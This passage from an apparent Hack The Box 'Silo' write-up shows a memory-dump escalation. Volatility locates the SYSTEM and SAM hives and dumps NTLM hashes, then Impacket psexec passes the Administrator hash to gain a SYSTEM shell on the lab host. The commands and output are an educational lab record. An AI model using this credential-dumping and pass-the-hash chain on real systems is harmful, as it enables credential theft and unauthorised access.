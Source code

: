 Another way we could have escalated privileges is through the **hivelist** plugin.

{% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]
╰─[:)] # volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hivelist 
Volatility Foundation Volatility Framework 2.6
Virtual            Physical           Name
------------------ ------------------ ----
0xffffc0000100a000 0x000000000d40e000 \??\C:\Users\Administrator\AppData\Local\Microsoft\Windows\UsrClass.dat
0xffffc000011fb000 0x0000000034570000 \SystemRoot\System32\config\DRIVERS
0xffffc00001600000 0x000000003327b000 \??\C:\Windows\AppCompat\Programs\Amcache.hve
0xffffc0000001e000 0x0000000000b65000 [no name]
0xffffc00000028000 0x0000000000a70000 \REGISTRY\MACHINE\SYSTEM
0xffffc00000052000 0x000000001a25b000 \REGISTRY\MACHINE\HARDWARE
0xffffc000004de000 0x0000000024cf8000 \Device\HarddiskVolume1\Boot\BCD
0xffffc00000103000 0x000000003205d000 \SystemRoot\System32\Config\SOFTWARE
0xffffc00002c43000 0x0000000028ecb000 \SystemRoot\System32\Config\DEFAULT
0xffffc000061a3000 0x0000000027532000 \SystemRoot\System32\Config\SECURITY
0xffffc00000619000 0x0000000026cc5000 \SystemRoot\System32\Config\SAM
0xffffc0000060d000 0x0000000026c93000 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
0xffffc000006cf000 0x000000002688f000 \SystemRoot\System32\Config\BBI
0xffffc000007e7000 0x00000000259a8000 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
0xffffc00000fed000 0x000000000d67f000 \??\C:\Users\Administrator\ntuser.dat
{% endhighlight %}

We now can dump the hashes by supplying the need address which is SYSTEM and SAM.  
> **Note:** To use hashdump, pass the virtual address of the SYSTEM hive as **-y** and the virtual address of the SAM hive as **-s**

{% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]
╰─[:)] # volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump -y 0xffffc00000028000 -s 0xffffc00000619000
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
{% endhighlight %}

We could try to crack these, but first, let’s try pass the hash:  

{% highlight zsh %}
╭─[~/APOLO/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]
╰─[:)] # /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 -target-ip 10.10.10.82
 administrator@10.10.10.82
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.82.....
[*] Found writable share ADMIN$
[*] Uploading file XryxqKFr.exe
[*] Opening SVCManager on 10.10.10.82.....
[*] Creating service PAYb on 10.10.10.82.....
[*] Starting service PAYb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
{% endhighlight %}

